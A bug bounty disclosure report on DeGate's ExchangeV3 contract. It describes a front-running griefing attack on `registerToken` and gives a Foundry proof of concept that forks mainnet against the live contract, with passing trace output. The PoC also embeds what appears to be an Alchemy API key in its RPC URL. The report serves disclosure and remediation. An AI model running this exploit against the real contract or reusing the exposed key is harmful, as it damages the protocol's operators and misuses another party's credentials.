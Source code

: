 
# `registerToken` can be front-run causing token can not be added to `reservedTokens` list

Submitted on Nov 20th 2023 at 22:35:43 UTC by @yttriumzz for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #25886

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
```solidity
    function registerToken(
        ExchangeData.State storage S,
        address tokenAddress,
        bool isOwnerRegister
        )
        public
        returns (uint32 tokenID)
    {
        require(!S.isInWithdrawalMode(), "INVALID_MODE");
        require(S.tokenToTokenId[tokenAddress] == 0, "TOKEN_ALREADY_EXIST");

        if (isOwnerRegister) {
            require(S.reservedTokens.length < ExchangeData.MAX_NUM_RESERVED_TOKENS, "TOKEN_REGISTRY_FULL");
        } else {
            require(S.normalTokens.length < ExchangeData.MAX_NUM_NORMAL_TOKENS, "TOKEN_REGISTRY_FULL");
        }

        // Check if the deposit contract supports the new token
        if (S.depositContract != IDepositContract(0)) {
            require(S.depositContract.isTokenSupported(tokenAddress), "UNSUPPORTED_TOKEN");
        }

        // Assign a tokenID and store the token
        ExchangeData.Token memory token = ExchangeData.Token(tokenAddress);

        if (isOwnerRegister) {
            tokenID = uint32(S.reservedTokens.length);
            S.reservedTokens.push(token);
        } else {
            tokenID = uint32(S.normalTokens.length.add(ExchangeData.MAX_NUM_RESERVED_TOKENS));
            S.normalTokens.push(token);
        }
        S.tokenToTokenId[tokenAddress] = tokenID + 1;
        S.tokenIdToToken[tokenID] = tokenAddress;

        S.tokenIdToDepositBalance[tokenID] = 0;

        emit TokenRegistered(tokenAddress, tokenID);
    }
```

Everyone can call `registerToken` to register a token. If it is called by the owner, the token is added to `reservedTokens`, otherwise it is added to `normalTokens`. Once a token is added to `reservedTokens` or `normalTokens`, it cannot be added again.

Therefore, the attacker can add the token that the Owner expects to be added to `reservedTokens` to `normalTokens` first.

The attack process is as follows:

1. Owner call `registerToken` to register TokenA
2. The attacker observes that mempool recognizes the Owner's transaction, initiates a transaction with a higher gas price, and front-run executes `registerToken` to register TokenA.

## Impact

https://docs.degate.com/v/product_en/concepts/economic-security

Please refer to the above document for the difference between `reservedTokens` and `normalTokens`. The owner's inability to add tokens to `reservedTokens` may damage the stable run of the protocol.

## Risk Breakdown

Difficulty to Exploit: Easy

## Recommendation

Owner can convert `normalTokens` into `reservedTokens`, which can prevent this BUG. And it allows the Owner to have the ability to add `reservedTokens` in the future. (For example, if a Token becomes popular, consider upgrading it from `normalTokens` to `reservedTokens`).

## References

## Proof of concept
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

// main fork url
string constant MAINNET_RPC_URL = "https://eth-mainnet.g.alchemy.com/v2/TrnSBL14bW3BaXavojgbw69L0ZK2lbZ_";
uint256 constant MAINNET_BLOCK_NUMBER = 18614000;

// contract address
address constant ADDRESS_CONTRACT_ExchangeV3 = address(0x9C07A72177c5A05410cA338823e790876E79D73B);
address constant ADDRESS_CONTRACT_WETH = address(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

// user address
address constant ADDRESS_USER_ExchangeV3Owner = address(0x9b93e47b7F61ad1358Bd47Cd01206708E85AE5eD);
address constant ADDRESS_USER_Attacker = address(0xAACE);

interface IExchangeV3 {
    function registerToken(address tokenAddress) external returns (uint32);
}

contract YttriumzzDemo is Test {
    IExchangeV3 exchangeV3;

    function setUp() public {
        vm.selectFork(vm.createFork(MAINNET_RPC_URL, MAINNET_BLOCK_NUMBER));

        exchangeV3 = IExchangeV3(ADDRESS_CONTRACT_ExchangeV3);
    }

    function testYttriumzzDemo() public {
        // This POC assumes this scenario:
        //   The Owner wants to add WETH to the `reservedTokens` list and call the `registerToken` function.
        //   The Attacker checked that the mempool contained this transaction and frount-run call the `registerToken` function,
        //   causing WETH to be added to the `normalTokens` list.
        // 
        // In order to simplify the POC:
        //   The Attacker is executed first, instead of providing a high gas price to let the node execute in advance.
        //
        // Results:
        //   WETH is added to the `normalTokens` list, and the Owner's transaction execution fails.

        vm.startPrank(ADDRESS_USER_Attacker);
        uint32 tokenID = exchangeV3.registerToken(ADDRESS_CONTRACT_WETH);
        vm.stopPrank();

        vm.startPrank(ADDRESS_USER_ExchangeV3Owner);
        vm.expectRevert("TOKEN_ALREADY_EXIST");
        exchangeV3.registerToken(ADDRESS_CONTRACT_WETH);
        vm.stopPrank();

        assertTrue(tokenID > 32);
        console.log("tokenID: %s", tokenID);
    }
}
```

Output:

```shell
$ forge test --match-test testYttriumzzDemo -vvvv
[⠰] Compiling...
[⠑] Compiling 1 files with 0.8.19
[⠘] Solc 0.8.19 finished in 1.22s
Compiler run successful!

Running 1 test for test/YttriumzzDemo.sol:YttriumzzDemo
[PASS] testYttriumzzDemo() (gas: 138975)
Logs:
  tokenID: 60

Traces:
  [138975] YttriumzzDemo::testYttriumzzDemo()
    ├─ [0] VM::startPrank(0x000000000000000000000000000000000000AAce)
    │   └─ ← ()
    ├─ [102352] 0x9C07A72177c5A05410cA338823e790876E79D73B::registerToken(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2)
    │   ├─ [97353] 0xc56C1dfE64D21A345E3A3C715FFcA1c6450b964b::registerToken(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2) [delegatecall]
    │   │   ├─ [89300] 0x2Bf7021a3Aa041e1a8a5082DB720d0202C70A3aE::5ac78334(0000000000000000000000000000000000000000000000000000000000000003000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc20000000000000000000000000000000000000000000000000000000000000000) [delegatecall]
    │   │   │   ├─ [5341] 0x54D7aE423Edb07282645e740C046B9373970a168::isTokenSupported(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2) [staticcall]
    │   │   │   │   ├─ [321] 0x8CCc06C4C3B2b06616EeE1B62F558f5b9C08f973::isTokenSupported(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2) [delegatecall]
    │   │   │   │   │   └─ ← 0x0000000000000000000000000000000000000000000000000000000000000001
    │   │   │   │   └─ ← 0x0000000000000000000000000000000000000000000000000000000000000001
    │   │   │   ├─ emit TokenRegistered(: 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, : 60)
    │   │   │   └─ ← 0x000000000000000000000000000000000000000000000000000000000000003c
    │   │   └─ ← 0x000000000000000000000000000000000000000000000000000000000000003c
    │   └─ ← 0x000000000000000000000000000000000000000000000000000000000000003c
    ├─ [0] VM::stopPrank()
    │   └─ ← ()
    ├─ [0] VM::startPrank(0x9b93e47b7F61ad1358Bd47Cd01206708E85AE5eD)
    │   └─ ← ()
    ├─ [0] VM::expectRevert(TOKEN_ALREADY_EXIST)
    │   └─ ← ()
    ├─ [22427] 0x9C07A72177c5A05410cA338823e790876E79D73B::registerToken(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2)
    │   ├─ [21912] 0xc56C1dfE64D21A345E3A3C715FFcA1c6450b964b::registerToken(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2) [delegatecall]
    │   │   ├─ [842] 0x2Bf7021a3Aa041e1a8a5082DB720d0202C70A3aE::5ac78334(0000000000000000000000000000000000000000000000000000000000000003000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc20000000000000000000000000000000000000000000000000000000000000001) [delegatecall]
    │   │   │   └─ ← 0x08c379a000000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000013544f4b454e5f414c52454144595f455849535400000000000000000000000000
    │   │   └─ ← "TOKEN_ALREADY_EXIST"
    │   └─ ← "TOKEN_ALREADY_EXIST"
    ├─ [0] VM::stopPrank()
    │   └─ ← ()
    ├─ [0] console::9710a9d0(0000000000000000000000000000000000000000000000000000000000000040000000000000000000000000000000000000000000000000000000000000003c000000000000000000000000000000000000000000000000000000000000000b746f6b656e49443a202573000000000000000000000000000000000000000000) [staticcall]
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.22s

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

